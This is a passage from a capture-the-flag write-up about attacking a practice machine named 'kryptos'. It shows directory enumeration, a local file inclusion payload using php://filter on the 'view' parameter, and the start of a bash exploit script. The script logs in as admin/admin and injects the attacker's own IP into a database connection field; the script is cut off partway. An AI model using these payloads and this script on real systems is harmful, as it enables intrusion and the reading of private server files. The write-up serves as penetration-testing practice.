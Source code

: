 Earlier on, the directory enumeration found one `403 Forbidden`, which was `dev`. Extending my observation to include `dev`, the decrypted text is:

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://kryptos/dev/">here.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at kryptos Port 80</address>
</body></html>
```

Surely this is encouraging. Let's pop that trailing `/` in.

```html
<html>
    <head>
    </head>
    <body>
        <div class="menu">
            <a href="index.php">Main Page
            <a href="index.php?view=about">About
            <a href="index.php?view=todo">ToDo
        </div>
</body>
</html>
```

Boom. Long story short, the LFI vulnerability lies with the `view` parameter and I wrote the following script to exploit this vulnerability to read files and display them to `stdout`.

<div class="filename"><span>holycow.sh</span></div>

```bash
#!/bin/bash

IP=$(ifconfig | grep -A1 tun0 | sed '2!d' | awk '{ print $2 }')
HOST=10.10.10.129
HOSTNAME=kryptos
FILE=$1
LFI="php://filter/convert.base64-encode/resource=$FILE"
VIEW="http://$HOSTNAME/dev/index.php?view=$LFI"
CIPHER="encrypt.php?cipher=RC4&url=$VIEW"

TOKEN=$(curl -c cookie \
             -s \
             http://$HOST \
        | grep token \
        | cut -d'"' -f6)

# login
curl -b cookie \
     -s \
     -o /dev/null \
     -d "username=admin" \
     -d "password=admin" \
     -d "db=cryptor%3Bhost%3D$IP" \
     -d "token=$TOKEN" \
     -d "login=" \
     "http://$HOST/index.php"

# encrypt
RC4=$(curl -b cookie \
           -s \
```